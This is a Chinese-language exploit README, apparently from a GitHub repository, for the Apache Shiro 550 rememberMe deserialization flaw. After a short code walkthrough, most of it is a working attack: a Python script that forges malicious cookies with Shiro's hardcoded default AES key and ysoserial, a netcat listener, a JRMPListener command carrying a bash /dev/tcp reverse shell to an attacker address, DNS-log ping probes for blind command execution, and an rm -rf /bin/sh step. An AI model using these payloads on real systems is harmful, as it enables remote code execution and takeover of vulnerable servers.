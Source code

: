 # Shiro 550

​	

[TOC]



## 一：原理分析

Shiro默认使用了`CookieRememberMeManager`，其正常处理cookie的流程如下：

> 取出rememberMe的cookie值
>
> ​					⬇
>
> ​			Base64解码
>
> ​					⬇
>
> ​				AES解密
>
> ​					⬇
>
> ​				反序列化

然而在Shiro1.2.4及以前的版本，AES的密钥是在代码中硬编码的，就导致了攻击者可以构造恶意数据通过rememberMe的接口发送，触发反序列化，从而达到RCE的目的。 



**1.  getRememberedSerializedIdentity : 187,  CookieRememberMeManager (org.apache.shiro.web.mgt)**

首先从http请求中获取cookie，如果cookie值不等于"deleteMe"

![1571976379851](README.assets/1571976379851.png)

调用ensurePadding来对取得的cookie填充`=`号

![1571976497410](README.assets/1571976497410.png)

调用base64解码，返回一个bytes数组

![1571976629868](README.assets/1571976629868.png)

**2.  getRememberedPrincipals:393, AbstractRememberMeManager (org.apache.shiro.mgt)**



![1571976825970](README.assets/1571976825970.png)



调用convertBytesToPrincipals进行解密和反序列化

![1571976694595](README.assets/1571976694595.png)



![1571976963328](README.assets/1571976963328.png)



跟进decrypt函数，可以知道iv是encrypted的前16bytes，key是在AbstractRememberMeManager中定义的默认KEY，可以自己修改，大部分情况都是默认

![1571978373346](README.assets/1571978373346.png)

最后把解密的数据给desirialize进行反序列化，反序列化的过程中调用了readObject

![1571978670426](README.assets/1571978670426.png)





## 二：如何确定目标使用shiro

观察Cookie中是否带有rememberme字段



## 三：如何利用

公网VPS上需要准备编译好的ysoserial.jar，或者自己下载源码重新编译

下载本仓库中的exp，exp中需要用到pycrypto模块

```
apt-get install python-dev
pip install pycrypto
```

**半自动过程**

生成cookie的脚本

```
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```

```
python2 create_payload.py "ping -n 3 66fysa.ceye.io || ping -c 3 66fysa.ceye.io"
```

得到构造好的rememberme的cookie，带着cookie去访问target就好

python脚本将生成cookie

![1565544767938](README.assets/1565544767938.png)

将cookie带入http请求中即可反弹shell

![1565544793335](README.assets/1565544793335.png)



观察VPS上的Listenner已经接收到访问

![1565544841324](README.assets/1565544841324.png)



**一键脚本**

生成payload并发包的脚本（`Shiro_550_RCE.py`）





**开始利用（以JRMPClient为例）**

1. 在VPS上监听反弹shell的命令

```
nc -lvp 4444
```

2. 在VPS上启动ysoserial的JRMPListener服务

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 "反弹shell的命令"
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections2 "bash -i >& /dev/tcp/xx.xxx.xx.xx/10086 0>&1"
```

CommonsCollections4也可以换成CommonsCollections2或者其他，需要根据服务器上的依赖版本选择不同的Conmoncollecctions

3. 修改参数并运行`Shiro_550_RCE.py`

```
python2 Shiro_550_RCE.py
```

4. 得到JRMP请求

![1565546098373](README.assets/1565546098373.png)



5. 在docker中已经发现wget的test文件，内容也没错，但是在执行的时候

![1565546153030](README.assets/1565546153030.png)

却没成功，使用bash就成功了，这可能是sh和bash的差异造成的

![1565546375307](README.assets/1565546375307.png)

一般优先使用bash



假如要sh与bash起同样作用，可以

```
rm -rf /bin/sh
ln -s /bin/bash /bin/sh
```



很奇怪，为什么直接反弹shell会不成功，下载文件然后执行就可以成功，留坑



## 四：无回显的情况下利用

针对无回显的命令执行漏洞，让目标机执行`wget`、`nc`或者`curl`等命令，然后在公网主机监听对应的端口，通过日志来判断命令是否被执行。



该方法可行，不过缺陷有以下几点：



- 修改了目标机的文件系统
- 不具有通用性，如windows没有nc、linux没有wget的情况。
- 涉及到TCP数据传输，执行速度慢



一种更好的方式是使用dns日志来判断命令是否执行，流程如下：

- 生成一个特殊的域名，如 66fysa.ceye.io
- 构造payload让目标机执行 ping 66fysa.ceye.io

登录dns服务后台，如果后台记录了该域名的dns查询记录，即证明目标存在命令执行。



使用`ping`命令的时候有个坑，大部分linux系统执行`ping xxxx`时候会一直ping下去，而不是win里面执行4次之后退出。 
解决方案：使用 `ping -n 3 xxx.com || ping -c 3 xxx.com` 可以解决该问题并保证兼容性。



实际情况中会遇到很多入口与出口不同的情况，即我们向主机A发送payload，但是主机B执行了我们的ping命令。这时我们dns日志中的IP与A的IP无法匹配，就会造成漏报。 

解决方案：为每次验证生成独立、随机的域名，如`[random].shiro.xxx.com`，在`[random]`处使用10位随机字符或者递增的数字。这样只要以该域名为准查找日志，即可同时匹配到入口和出口主机IP。



